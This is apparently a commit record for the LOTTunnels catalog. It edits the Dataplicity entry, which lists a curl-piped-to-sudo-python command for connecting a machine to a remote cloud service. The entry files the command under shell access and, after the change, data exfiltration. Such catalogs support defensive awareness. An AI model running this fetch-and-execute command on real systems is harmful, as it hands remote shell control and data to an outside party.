

Before and after one commit to LOTTunnels/LOTTunnels.github.io, a Jekyll site: the page built from _lottunnels/Binaries/dataplicity.md, in a window 1280 px wide. Shown: the whole page at 94% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours.

Commit message:
Dataplicity

```diff
--- a/_lottunnels/Binaries/dataplicity.md
+++ b/_lottunnels/Binaries/dataplicity.md
@@ -6,15 +6,15 @@
 Commands:
   - Command: curl -s https://www.dataplicity.com/<TOKEN>.py | sudo python
     Description: Having an account created on the website, it is possible to connect any system to the Dataplicity cloud and access it remotely, keeping shell-access.
-    Usecase: Connecting the user machine to daraplicity cloud for shell-access/remote-access.
+    Usecase: Connecting the user machine to dataplicity cloud for shell-access/remote-access.
     Category: shell-access
     Privileges: User
     OperatingSystem: Windows, Mac, Linux
 
   - Command: curl -s https://www.dataplicity.com/<TOKEN>.py | sudo python
-    Description: Having an paid account created on the website, it is possible to connect any system to the Dataplicity cloud and access it remotely, keeping persistent access.
-    Usecase: Connecting the user machine to daraplicity cloud for persistence.
-    Category: persistence
+    Description: Having an account created on the website, it is possible to connect any system to the Dataplicity cloud and access it remotely, for data exfiltration.
+    Usecase: Connecting the user machine to dataplicity cloud for data exfiltration.
+    Category: exfiltrate
     Privileges: User
     OperatingSystem: Windows, Mac, Linux
 
```
